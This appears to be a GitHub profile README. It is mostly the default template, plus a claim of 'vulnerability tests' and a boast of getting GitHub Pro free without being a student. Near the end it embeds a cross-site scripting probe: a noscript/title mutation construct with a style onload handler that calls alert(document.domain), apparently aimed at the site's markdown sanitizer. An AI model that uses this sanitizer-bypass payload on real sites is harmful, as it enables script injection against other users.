 ### Hi there 👋
### I'm doing vulnrability tests!!!!!!!!!!!

**JimmyJhonson1/jimmyjhonson1** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
<a href="https://bounty.github.com/ineligible.html" download>Click to Download</a>

This account got github pro for free without being a student.
<noscript> &amp;lt;p title=” &lt;/noscript&gt;
&lt;style onload= alert(document.domain)//&quot;&gt; *{/*all*/color/*all*/:/*all*/#f78fb3/*all*/;} &lt;/style&gt;
